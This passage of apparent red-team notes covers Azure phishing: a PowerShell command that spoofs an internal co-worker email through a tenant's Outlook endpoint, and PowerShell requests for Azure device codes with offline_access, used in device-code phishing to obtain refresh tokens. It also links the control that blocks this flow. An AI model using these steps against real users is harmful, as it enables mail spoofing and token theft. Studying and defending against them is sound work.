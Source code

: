 ```
Send-MailMessage -SmtpServer CompanyDomain-com.mail.protection.outlook.com -Subject “Subject Here” -To ‘Full Name <user2@companyDomain.com>‘ -From ‘From Full Name <user1@companyDomain.com>‘ -Body “Hello From your Co-worker” -BodyAsHtml
```

### Azure Device Code
- Device Code is used to login to devices that have input validations
- Flow:
	- Enter code on device on https://microsoft.com/devicelogin
	- Perform normal authentication, including MFA as user
	- On successful login the device gets access and refresh tokens
	- [MS link](https://learn.microsoft.com/en-us/entra/identity-platform/v2-oauth2-device-code#protocol-diagram)
- Links
  - https://aadinternals.com/post/phishing/
  - https://www.offsec-journey.com/post/phishing-with-azure-device-codes
  - https://www.youtube.com/watch?v=GZ_nn0uRLr4
  - https://0xboku.com/2021/07/12/ArtOfDeviceCodePhish.html
- Block device auth flow: https://learn.microsoft.com/en-us/entra/identity/conditional-access/how-to-policy-authentication-flows

#### Manually request device code
- Code is only valid for 15 minutes!
- There are multiple methods to request device codes. A few examples below:
- Manually version 1 API
  - Scope = all default permissions and `offline_access`
  - The scope `offline_access` instructs the Azure AD to return a refresh token in addition to an access token and ID token.
  - Copy the `user_code`
  - Can replace `common` in url with `consumers`, `organizations`, `tenant ID` or `tenant domain`

```
$ClientID = "d3590ed6-52b3-4102-aeff-aad2292ab01c"
$Resource = "https://graph.windows.net/"

$body = @{
	"client_id" = $ClientID 
	"resource" = $Resource
}

$authResponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" -Body $body

Write-Output $authResponse
```

- Manually version 2 API
```
$ClientID = "d3590ed6-52b3-4102-aeff-aad2292ab01c"
$Scope = ".default offline_access"

$body = @{
	"client_id" = $ClientID 
	"scope" = $Scope
}

$authResponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/v2.0/devicecode" -Body $body

Write-Output $authResponse
```

